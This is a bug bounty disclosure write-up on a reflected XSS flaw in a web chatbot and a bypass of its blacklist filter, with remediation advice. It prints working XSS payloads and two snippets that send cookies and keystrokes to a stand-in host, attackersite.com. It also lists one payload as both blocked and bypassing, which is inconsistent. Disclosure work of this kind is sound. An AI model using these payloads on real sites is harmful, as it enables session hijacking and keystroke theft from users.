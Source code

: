 # Exploiting and Bypassing XSS Protections in a Chatbot

Cross-Site Scripting (XSS) vulnerabilities remain one of the most persistent and dangerous security flaws in web applications. During a bug bounty program, I identified and reported a **Reflected XSS vulnerability** in a chatbot feature of a web platform. The issue was promptly addressed by the development team, but further testing revealed a bypass for their newly implemented XSS filtering mechanism. Below, I will outline both the initial vulnerability and how the bypass was achieved, along with technical insights and recommendations.

---

## Initial Discovery: Reflected XSS in the Chatbot

The chatbot functionality, designed to assist users in navigating the platform, exhibited a flaw that allowed malicious JavaScript injection. This vulnerability enabled the execution of arbitrary scripts in the context of the user's browser.

### Steps to Identify the Issue

1. **Accessing the Chatbot**:

   - The chatbot was embedded on the registration confirmation page and accessible from the bottom-right corner of the screen.

2. **Injecting the Payload**:

   - Using the chatbot's input field, I injected the following payload:
     ````html
     <script><img title="</script><img src onerror=alert(1)>"></script>
     <title><title><img title="</title><img src onerror=alert(1)>"></title></title>
     <noframes><img title="</noframes><img src onerror=alert(1)>"></noframes>
     <textarea><img title="</textarea><img src onerror=alert(1)>"></textarea>
         ```
     ````
   - The script executed successfully, triggering an alert in the browser.

3. **Advanced Payload Demonstrations**:
   - To demonstrate the severity of the issue, more harmful payloads were tested, including:
     - **Cookie Theft**:
       ```javascript
       var img = new Image();
       img.src = "http://attackersite.com/cookie?c=" + document.cookie;
       ```
     - **Keystroke Logging**:
       ```javascript
       document.onkeypress = function (e) {
         var xhr = new XMLHttpRequest();
         xhr.open("GET", "http://attackersite.com/log?key=" + e.key, true);
         xhr.send();
       };
       ```

### Root Cause

The chatbot's input validation and output rendering failed to sanitize user-provided inputs, allowing HTML and JavaScript injection.

### Reported Timeline

- **Discovery Date:** October 30, 2024
- **Report Submission:** October 30, 2024
- **Triaging Completed:** November 1, 2024
- **Fix Deployed:** November 5, 2024
- **Acknowledgment:** Public thank-you note and monetary reward.

---

## Developer Response: Implementing XSS Filtering

The development team addressed the vulnerability by deploying a stricter input validation mechanism for the chatbot. The implemented filter blocked commonly used XSS payloads, including those containing `<script>` tags or onerror events.

### Tested Filtered Payloads

```html
     <script><img title="</script><img src onerror=alert(1)>"></script>
     <title><title><img title="</title><img src onerror=alert(1)>"></title></title>
     <noframes><img title="</noframes><img src onerror=alert(1)>"></noframes>
     <textarea><img title="</textarea><img src onerror=alert(1)>"></textarea>
```

- This payload, designed to trigger an alert using the `onerror` attribute of an image tag, was correctly blocked by the new filter.

While the fix demonstrated a significant improvement, I identified limitations in the filtering logic through further testing.

---

## The Bypass: Exploiting Weaknesses in the XSS Filter

By examining the filtering mechanism, I discovered that it relied heavily on blacklisting specific HTML tags and attributes. This approach left the system vulnerable to less conventional XSS payloads. I developed alternative injection techniques to bypass the protections.

### Bypass Payloads

1. **Tag Alteration**:

   - Introducing unconventional syntax to escape the filter:
     ```html
     <title><title><img title="</title><img src onerror=alert(1)>"></title></title>
     <iframe><iframe><img title="</iframe><img src onerror=alert(1)>"></iframe></iframe>
     <video controls src=<video controls src=validvideo.mp4 onwebkitfullscreenchange=alert(1)>>
     ```
   - The browser interpreted this unconventional tag syntax correctly, allowing the execution of the malicious script.

### Technical Analysis

- The bypass succeeded because the filter failed to account for non-standard syntax and relied on simple string matching to block known malicious patterns.
- The chatbot's rendering engine still processed and executed these malformed tags, highlighting a deeper issue in how the platform interpreted user inputs.

### Reported Timeline

- **Discovery Date of Bypass:** November 25, 2024
- **Report Submission:** November 25, 2024
- **Triaging Completed:** November 26, 2024
- **Fix Deployed:** November 29, 2024
- **Acknowledgment:** Private recognition and a follow-up reward.

---

## Business Impact

1. **Data Theft**:

   - Reflected XSS vulnerabilities enable attackers to steal sensitive user data, including session tokens and cookies.

2. **Session Hijacking**:

   - Stolen session tokens can be used to impersonate users, escalating privileges if the compromised account belongs to an administrator.

3. **Malicious Actions**:

   - Arbitrary scripts can send unauthorized requests on behalf of the user, modify account settings, or disrupt services.

4. **Reputation Damage**:
   - Exploitation of vulnerabilities on public-facing platforms, especially government or enterprise systems, erodes user trust and damages the platform's reputation.

---

## Recommendations

1. **Input Sanitization**:

   - Strictly sanitize all inputs on both client and server sides to remove or encode special characters such as `<`, `>`, and `&`.

2. **Output Encoding**:

   - Encode all user-generated content before rendering it in the browser to ensure that it is treated as plain text rather than executable code.

3. **Content Security Policy (CSP)**:

   - Implement a strong CSP to restrict the execution of scripts to trusted sources. This serves as an additional layer of protection against XSS attacks.

4. **Server-Side Validation**:

   - Validate all user inputs server-side to ensure consistency and prevent tampering.

5. **Fuzz Testing for Filter Bypasses**:

   - Continuously test input validation mechanisms using automated tools and fuzzing techniques to identify bypass methods.

6. **Logging and Monitoring**:
   - Implement robust logging and monitoring to detect anomalous activities, such as repeated injection attempts or suspicious payloads.

---

## Conclusion

The initial reflected XSS vulnerability in the chatbot demonstrated a critical lapse in input sanitization and output encoding. Although the development team implemented a quick fix to address the issue, the reliance on blacklisting and inadequate fuzz testing allowed for a bypass of the new protections. This case highlights the importance of adopting a multi-layered approach to input validation and security.

Addressing XSS vulnerabilities requires a combination of secure development practices, proactive monitoring, and periodic security assessments. By implementing the recommended fixes, the platform can effectively mitigate these risks and safeguard its users from malicious exploitation.

